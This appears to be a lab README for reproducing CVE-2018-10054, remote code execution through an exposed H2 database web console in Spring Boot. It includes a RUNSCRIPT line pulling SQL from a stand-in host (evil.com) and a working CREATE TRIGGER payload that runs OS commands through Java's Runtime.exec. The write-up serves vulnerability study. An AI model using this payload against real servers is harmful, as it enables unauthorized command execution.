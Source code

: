 # H2 Database Web Console Authentication Remote Code Execution (CVE-2018-10054)

[中文版本(Chinese version)](README.zh-cn.md)

H2 database is a fast, open-source Java-based relational database management system (RDBMS) that can be used in both embedded (within a Java application) and client-server modes.

Springboot with h2 database comes with a web management page if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

H2 Database versions prior to 1.4.198 allow any user to access the web management page by creating a new database file or connecting to an in-memory database. After authentication, an arbitrary code can be executed by one of the following commands:

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code...; CALL func ...`
- `CREATE TRIGGER ... AS code...`

References:

- <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>
- <https://www.exploit-db.com/exploits/45506>
- <https://github.com/h2database/h2database/issues/1225>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## Setup

Start a spring-boot with h2 database 1.4.197:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

First, login the H2 web console by connecting to the in-memory database:

```
jdbc:h2:mem:test
```

![](1.png)

Then, execute the following commands to execute the `id` command:

```sql
CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

As you can see, the `id` command is executed successfully and the result is raised as an exception.

![](2.png)
